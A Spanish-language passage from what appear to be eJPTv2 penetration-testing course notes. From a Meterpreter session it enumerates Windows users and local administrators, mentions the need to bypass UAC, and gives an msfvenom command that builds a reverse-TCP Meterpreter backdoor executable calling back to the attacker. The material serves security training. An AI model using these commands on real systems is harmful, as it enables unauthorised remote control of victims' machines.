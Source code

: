 Ahora debemos verificar si este usuario es parte del grupo de administradores locales, y sólo podremos hacerlo desde una sesión “shell”:

```bash
meterpreter > shell
C:\Windows\system32 > net user # Devuelve las cuentas existentes.
C:\Windows\system32 > net localgroup administrators
```

Vemos que el usuario “admin” forma parte del grupo de administradores, por lo que puede ejecutar programas con privilegios elevados, pero para hacerlo, necesitamos omitir UAC.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2084.png)

A continuación, en una nueva terminal vamos a generar el payload con **msfvenom**:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_IP> LPORT=1234 -f exe > backdoor.exe
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2085.png)
